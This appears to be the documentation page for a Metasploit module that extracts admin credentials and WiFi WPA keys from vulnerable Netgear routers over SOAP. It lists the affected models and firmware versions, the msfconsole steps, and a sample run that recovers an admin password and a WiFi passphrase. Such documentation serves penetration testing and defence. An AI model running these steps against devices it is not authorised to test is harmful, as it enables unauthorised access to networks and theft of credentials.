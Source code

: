 ## Vulnerable Application

The following list is a non-exhaustive list of vulnerable Netgear devices:

  1.  R6300v2  < [1.0.3.28](http://kb.netgear.com/app/answers/detail/a_id/28372)
  2.  WNDR3300 - V1.0.45 (current, confirmed vuln)
  3.  WNDR3700v1 - 1.0.7.98, 1.0.16.98 (confirmed vuln)
  4.  WNDR3700v2 - 1.0.1.14 (EOL, confirmed vuln)
  5.  WNDR3700v4 < [1.0.2.80](http://kb.netgear.com/app/answers/detail/a_id/28355)
  6.  WNDR3800 - 1.0.0.48 (EOL, confirmed vuln)
  7.  WNDR4300 < [1.0.2.80](http://kb.netgear.com/app/answers/detail/a_id/28037)
  8.  WNR1000v2 - 1.0.1.1, 1.1.2.58 (EOL, confirmed vuln)
  9.  WNR2000v3 < [1.1.2.12](http://kb.netgear.com/app/answers/detail/a_id/30024)
  10. WNR2200 < [1.0.1.96](http://kb.netgear.com/app/answers/detail/a_id/28036)
  11. WNR2500 < [1.0.0.32](http://kb.netgear.com/app/answers/detail/a_id/28351)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/netgear_soap_password_extractor```
  3. Do: ```set rhost <ip>```
  4. Do: ```run```
  5. You should get admin info on the device

## Scenarios

  Example run against wnr2000v3 with firmware 1.1.2.10:

```
msf > use auxiliary/admin/http/netgear_soap_password_extractor 
msf auxiliary(netgear_soap_password_extractor) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(netgear_soap_password_extractor) > run

[*] Trying to access the configuration of the device
[*] Extracting Firmware version...
[+] Model wnr2000v3 found
[+] Firmware version V1.1.2.10 found
[+] Device details downloaded to: /root/.msf4/loot/20160706212637_default_192.168.1.1_netgear_soap_dev_000157.txt
[*] Extracting credentials...
[*] Credentials found, extracting...
[+] admin / password credentials found
[+] Account details downloaded to: /root/.msf4/loot/20160706212637_default_192.168.1.1_netgear_soap_acc_387111.txt
[*] Extracting Wifi...
[+] Wifi SSID: NETGEAR44
[+] Wifi Encryption: WPA2-PSK
[*] Extracting WPA Keys...
[+] Wifi Password: netgearpassword22
[*] Auxiliary module execution completed
```
